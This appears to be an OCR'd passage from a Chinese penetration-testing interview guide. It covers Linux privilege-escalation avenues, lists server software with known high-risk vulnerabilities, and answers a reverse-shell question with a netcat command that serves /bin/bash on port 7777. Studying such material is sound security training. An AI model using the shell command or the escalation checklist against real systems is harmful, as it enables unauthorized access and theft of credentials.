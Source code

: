 Linux 也是类似，除了 EXP 或者⾼版本的内核⽆法提权之外，通过第三⽅软件和服务，除了提权也可以考虑把这台机器 当跳版, 达到先进⼊内⽹安全防线最弱的地⽅寻找有⽤的信息，再迂回战术。

linux 权限提升

Brief

枚举脚本

以 root 权限运⾏的程序

⽤户安装的软件

弱⼝令或者明⽂密码

只能内部访问的服务

suid 和 guid 错误配置

滥⽤ sudo 权限

以 root 权限运⾏的脚本⽂件

错误的路径配置

计划任务

未挂载的⽂件系统

NFS 共享

通过键盘记录仪窃取密码

其它有⽤的和提权相关的东⻄

内核提权

24、列举出您所知道的所有开源组件⾼危漏洞 (⼗个以上)

Tomcat

Nginx

Apache

Hadhoop

Docker

Jenkins

Zenoss

Jboss

MongoDB

Redis

GlassFish

25、反弹 shell 的常⽤命令？⼀般常反弹哪⼀种 shell？为什么？

nc -lvvp 7777 -e /bin/bash

bash 是交互式, 否则像 useradd ⽆法执⾏交互
